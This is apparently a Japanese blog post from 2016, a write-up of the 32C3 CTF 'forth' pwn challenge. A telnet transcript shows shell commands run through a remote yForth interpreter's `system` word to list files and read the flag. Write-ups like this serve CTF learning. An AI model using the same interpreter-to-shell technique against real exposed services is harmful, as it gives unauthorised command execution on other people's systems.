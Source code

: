 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/01/02/32c3-ctf-forth/
date: 2016-01-02T23:19:54+09:00
tags: [ "ctf", "pwn", "writeup", "forth", "xinetd" ]
---
```


# 32C3 CTF forth

## [pwn 150: forth](https://github.com/ctfs/write-ups-2015/tree/master/32c3-ctf-2015/pwn/forth-150)

>   Connect to 136.243.194.49:1024 and get a shell.

本番中に解けた。

forthのinterpreterに繋がっているので、`system`を叩けばよい。
真面目にforthの命令で出力させようとして、`[open-file] error(2): unknown word.`とか言われforthのmanual読みながら頑張っていたりしたので、それなりに苦労した。

``` sh
$ telnet 136.243.194.49 1024
Trying 136.243.194.49...
Connected to 136.243.194.49.
Escape character is '^]'.
yForth? v0.2  Copyright (C) 2012  Luca Padovani
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions; see LICENSE for details.
s" ls" system
flag.txt  README.gpl  run.sh  yforth
ok
ok
s" cat flag.txt" system
32C3_a8cfc6174adcb39b8d6dc361e888f17b
ok
ok
^]
telnet> quit
Connection closed.
```
